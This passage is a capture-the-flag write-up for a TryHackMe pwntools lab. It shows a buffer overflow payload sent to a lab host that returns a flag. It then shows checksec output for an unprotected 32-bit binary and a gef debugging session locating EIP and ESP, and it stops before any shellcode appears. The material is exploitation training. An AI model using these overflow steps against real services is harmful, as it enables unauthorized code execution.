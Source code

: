 ```python 
[x] Opening connection to 10.10.253.254 on port 1337
[x] Opening connection to 10.10.253.254 on port 1337: Trying 10.10.253.254
[+] Opening connection to 10.10.253.254 on port 1337: Done
>>> print(connect.recvn(18))
b'Give me deadbeef: '
>>> payload = b"a"*32
>>> payload += p32(0xdeadbeef)
>>> connect.send(payload)
>>> print(connect.recvn(34))
b'Thank you!\nflag{n3tw0rk!ng_!$_fun}'

```

## ShellCraft

```bash

┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/shellcraft]
└─# file intro2pwnFinal 
intro2pwnFinal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9b3973ea8815c8ff78996ab1b3bcd48d3492ba8a, not stripped
                                                                   
┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/shellcraft]
└─# checksec intro2pwnFinal 
[*] '/root/CTF/THM/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

## Locate the EIP

```python

gef➤  r < test1
Starting program: /root/CTF/THM/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal < test1
Hello There. Do you have an input for me?

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf00  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x61616172 ("raaa"?)
$ecx   : 0xf7fa6580  →  0xfbad2098
$edx   : 0xfbad2098
$esp   : 0xffffcf50  →  "uaaavaaawaaaxaaayaaa"
$ebp   : 0x61616173 ("saaa"?)
$esi   : 0x1       
$edi   : 0x8048340  →  <_start+0> xor ebp, ebp
$eip   : 0x61616174 ("taaa"?)





Now we get the $esp address by running our payload (test2) with gef. It is `0xffffcf50`
```